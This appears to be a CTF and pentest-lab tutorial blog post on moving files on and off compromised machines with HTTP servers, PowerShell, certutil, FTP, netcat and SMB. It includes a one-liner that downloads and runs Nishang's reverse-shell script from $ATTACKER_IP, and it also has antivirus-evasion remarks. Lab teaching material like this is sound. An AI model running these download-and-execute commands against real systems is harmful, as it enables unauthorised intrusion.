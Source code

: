 ```yaml
---
layout: single
classes: wide
title:  "Basics: File Transfer"
date:   2020-01-26 20:26:59 -0500
categories: ctf basics
---
```

This Basics post will outline some methods for transferring files on and off CTF machines. I'll be writing these posts as if you were working in a lab environment with others, as is the case with HTB and the PWK labs.

You'll often need to transfer files onto or off of a target machine once you have a shell, or to get a shell. The methods for doing so will vary depending on the target's OS and the network configuration. You aren't always going to have the best tools available, so it's smart to learn several methods.

## HTTP Server + wget/curl

This technique involves hosting a webserver on the machine that contains the content to be transferred, then using a program like wget or curl on the receiving machine to grab content from the server. This is what I find myself using the most.

### Setup

There's a number of ways to start an HTTP server on Kali, but I typically use Python's http.server module:

`$ python3 -m http.server 80`

This command will host an HTTP server on your machine on port 80. You can change the port number if you need to. The server's root will be at the directory in which the command was run. Use `Ctrl+C` to kill the server when you're done.

This method is more useful for getting files onto the victim machine, since you aren't always going to be able to start an HTTP Server from the victim to transfer files back.

However, if the victim machine is already running a web server and you have the neccessary permissions, you could just copy the files to the web server directory (Eg: `/var/www/html/` for Apache) and access them via browser/wget on your Kali machine. Just be courteous and clean up after yourself when you're done.

### Linux

From the victim machine, download the file with wget. I like to download files to `/dev/shm`.

`$ wget [YOUR_IP]:80/filetograb.sh`

### Windows

Windows doesn't have a standalone tool like wget to grab content from web servers. However, you can use PowerShell to do this. There are several different ways.

[Invoke-Webrequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-6) is one way. If a Powershell install (>= 3.0) exists on the system, you can use this method. Be aware that this command stores the entire file in memory before writing it, so it's not suitable for large files.

`PS> Invoke-Webrequest -Uri [YOUR_IP]/filetograb.bat -OutFile filetograb.bat`

[System.Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?redirectedfrom=MSDN&view=net-7.0) is a .NET class you can use through PowerShell. I typically use its DownloadFile and DownloadString methods. I use DownloadFile for binaries, and DownloadString for scripts. I generally prefer these over Invoke-Webrequest.

DownloadFile requires that you specify the new location and filename, it does not implicitly dump it into the current working directory. This command downloads winPEAS from a Python webserver I'm hosting and dumps it into `C:\Users\Public\winPEASany.exe`.

`PS> (New-object System.Net.WebClient).DownloadFile('http://$ATTACKER_IP/winPEASany.exe', 'C:\Users\Public\winPEASany.exe')`

I like to use a combination of IEX and DownloadString to download and execute scripts in one go. This can be useful for getting a shell from a web application if you have RCE. This command will download Nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and execute it in the same line.

`> powershell.exe -c iex(new-object net.webclient).downloadstring('http://$ATTACKER_IP/Invoke-PowerShellTcp.ps1')`

If PowerShell is not available, you can also use the CertUtil binary to download files:

`> certutil.exe -urlcache -f http://YOUR_IP/meanfile.exe meanfile.exe`

## FTP

Unsurprisingly, File Transfer Protocol is useful for transferring files. This method involves starting an FTP server on your Kali machine and hosting files there. You can configure the server to allow anonymous logins and even give users write access if you need to transfer files back and forth. I would reccommend specifying a username and password though, especially in a lab environment with others. Just remember to kill the server when you're done.

### Setup
We can spin up an FTP server in one line using the `pytftpd` module in Python, similar to how we set up the HTTP server. The module doesn't come installed by default though, so you need to install it with apt or pip.

We can also use a Metasploit auxiliary module. From msfconsole, use `auxiliary/server/ftp`, set the options you want, then run.

Once you're done, kill it with `jobs -k [ID]`.

Using a more fully featured FTP server like `vsftpd` is an option, but these two methods are more convenient to spin up for a single use.

### Linux

Use `ftpclient` to log into your server and transfer your files.

### Windows

Windows has a built-in FTP client located at `C:\Windows\System32\ftp.exe`, so this method should almost always be available.

## Netcat/Ncat

One of Netcat's many functions is simple file transfer. A netcat binary is required on both machines to do this. On the recieving machine, start a listener and redirect the output into a file. On the machine you're tranferring from, start nc and use the file you want to transfer as input.

Ncat has this same functionality with a few bonuses. For one, the session shouldn't hang on a file transfer like it does with netcat. Also, it supports encryption. But you don't often find it on challenge machines, so most of the time you'll be using netcat.

This method is convenient on Linux because it requires no setup and almost every distribution has nc on it in some form. It's less convenient with Windows for reasons I outline in that section.

### Linux

Start a listener on the receiving machine:
`nc -lvp [LISTEN_PORT] > file.sh`
Once a connection is made to this port, it will output into `file.sh`.

Connect to it on the source machine:
`nc -nv [RECEIVING_MACHINE_IP] [LISTEN_PORT] < file.sh`
file.sh is the file you want to transfer.

You should see the familiar netcat connection message and the file should begin to download. One shortcoming of using nc for this is that there is no way to view the transfer progress, and the session will probably hang even if everything was successful. Once you're sure that the download is complete, you can Ctrl+C the session **on your own machine.**  This should give you your shell back on the victim machine and you'll have your shiny new file. If you kill the session on the victim then you'll just kill your shell.

### Windows

Technically, you can do the same thing on Windows. However, Windows doesn't have netcat by default, so you need to put it there. Probably via file transfer. So, to get file transfer via netcat on Windows, you first need file transfer to get netcat on Windows.

This isn't all bad though. There seem to be more ways to transfer a file onto Windows than off of it, so you can use another method to get netcat onto the Windows machine. Afterwards, you can use it to transfer files back to Kali.

A word of caution though, Windows AV really doesn't like netcat. `nc.exe` is picked up by quite a few antivirus programs, according to VirusTotal. You might be able to get by if you use the version without the `-e` option, or if the Windows machine is old or lacks AV.

You can find nc.exe on Kali at `/usr/share/windows-resources/binaries/nc.exe`.

If recieving machine:
`> nc.exe -lvp [LISTEN_PORT] > file.sh`

If source machine:
`> nc.exe -nv [RECEIVING_MACHINE_IP] [LISTEN_PORT] < file.sh`

## SMB

SMB is really convenient for getting files onto Windows. No tools are needed, since Windows can natively read UNC paths. It can also execute files directly from the SMB share without needing to copy them over first. This can help sidestep AV in some cases.

Works fine for Linux as well, but there's usually a more convenient method available.

### Setup
Once again, Python is the easiest way. `smbserver.py` from [impacket](https://github.com/SecureAuthCorp/impacket) will let us set up a basic SMB server in one line. You can of course set up a proper SMB server on Kali as well, but it's overkill for what we're doing here.

The share will be bound to port 445 and accepts any authentication. Use `Ctrl+C` to stop it when you're done. You can require a username and password with the `-username` and `-password` arguments.

Give it a share name and path to share:
`$ python smbserver.py [SHARE_NAME] [PATH]`

### Linux

You can use `smbclient`. Most distributions should have it installed.

### Windows

Since Windows natively handles UNC paths, you can work with the share path as if it were any other path. UNC paths are specified with double backslashes followed by the computer IP/hostname and share name.

`> dir \\[YOUR_IP]\[SHARE_NAME]`



